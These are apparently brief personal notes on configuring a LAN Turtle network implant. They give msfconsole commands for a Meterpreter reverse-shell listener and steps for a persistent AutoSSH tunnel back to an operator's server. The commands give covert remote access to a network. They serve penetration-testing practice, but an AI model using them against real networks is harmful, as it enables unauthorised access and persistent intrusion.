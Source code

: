 

Network config: 

    /etc/config/network
https://www.linuxquestions.org/questions/linux-networking-3/lan-turtle-configuration-4175574487/


Module locations:

    /etc/turtle/modules

 to start a module from here: ./<module> start
 
 
 
## Modules


### Meterpreter reverse shell

Setting up listener
 
    msfconsole

    use exploit/multi/handler

    set PAYLOAD php/meterpreter/reverse_tcp

    set LPORT/LHOST
    set ExitOnSession false
    exploit -j

 Set up LAN Turtle

 Configure meterpreter-http with the correct IP and Port.
 
### AutoSSH
  
  Modules: autossh and keymanager
  
  Require VM with SSH server. 
  
    
  On the server create user to run the connection
  
       adduser turtle
       
       systemctl start ssh.service
  
   Use keymanager to generate keys and send the key to the server. (will be under /root/.ssh)
   
    Host: IP of SSH server
    Port: Listening port of SSH server
    User: user that was just created on server
    
  
  
  
  
  
  
  
  
  
  
 
